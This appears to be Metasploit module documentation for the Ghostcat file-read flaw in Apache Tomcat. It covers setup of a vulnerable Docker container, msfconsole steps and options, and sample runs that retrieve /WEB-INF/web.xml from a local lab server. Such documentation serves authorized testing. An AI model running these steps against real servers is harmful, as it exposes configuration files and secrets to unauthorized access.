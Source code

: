 ## Vulnerable Application

### Description

This module can be used to retrieve arbitrary files from anywhere in the web application, including the `WEB-INF` and `META-INF`
directories and any other location that can be reached via `ServletContext.getResourceAsStream()` on Apache Tomcat servers.
It also allows the attacker to process any file in the web application as JSP.

### Setup

Running within a docker container:

```
docker run --name tomcat --rm -p 8080:8080 -p 8009:8009 tomcat:8.5.32
```

## Verification Steps

1. Install the application and start it
2. Start msfconsole
3. Do: `use auxiliary/admin/http/tomcat_ghostcat`
4. Do: `set RHOSTS [ip]`
5. Do: `set RPORT [port]`
6. Do: `set FILENAME [filename]`
7. Do: `run`

## Options

### FILENAME
The file you would like to retrieve from the target web application. Defaults to `/WEB-INF/web.xml`

### AJP_PORT
The port on the target that is running the Apache JServ Protocol (AJP).

## Scenarios

### Apache Tomcat 8.5.32

```
msf6 > use auxiliary/admin/http/tomcat_ghostcat
msf6 auxiliary(admin/http/tomcat_ghostcat) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(admin/http/tomcat_ghostcat) > set RPORT 8080
RPORT => 8080
msf6 auxiliary(admin/http/tomcat_ghostcat) > set FILENAME /WEB-INF/web.xml
FILENAME => /WEB-INF/web.xml
msf6 auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 127.0.0.1
Status Code: 200
Accept-Ranges: bytes
ETag: W/"1227-1529524397000"
Last-Modified: Wed, 20 Jun 2018 19:53:17 GMT
Content-Type: application/xml
Content-Length: 1227
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
  version="3.1"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>

[+] 127.0.0.1:8080 - /Users/user/.msf4/loot/20210408102538_default_127.0.0.1_WEBINFweb.xml_436040.txt
[*] Auxiliary module execution completed
```

### Apache Tomcat on Windows 10.0.16299.125

```
  [*] Processing tomcat_ghostcat.rb for ERB directives.
  resource (tomcat_ghostcat.rb)> use auxiliary/admin/http/tomcat_ghostcat
  resource (tomcat_ghostcat.rb)> set rport 8080
  rport => 8080
  resource (tomcat_ghostcat.rb)> set rhosts 127.0.0.1
  rhosts => 127.0.0.1
  resource (tomcat_ghostcat.rb)> set verbose true
  verbose => true
  resource (tomcat_ghostcat.rb)> set FILENAME /WEB-INF/web.xml
  filename => /WEB-INF/web.xml

  resource (tomcat_ghostcat.rb)> run
  [*] Running module against 127.0.0.1
  <?xml version="1.0" encoding="UTF-8"?>
<!--
    Copyright 2017 The MIT Internet Trust Consortium

    Portions copyright 2011-2013 The MITRE Corporation

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
-->

  <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"

xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd">

version = "4.0"
metadata-complete="true">

<display-name> Welcome to Tomcat </display-name>
<description>
 Welcome to Tomcat
 </description>

 <web-app>
[*] Auxiliary module execution completed

```

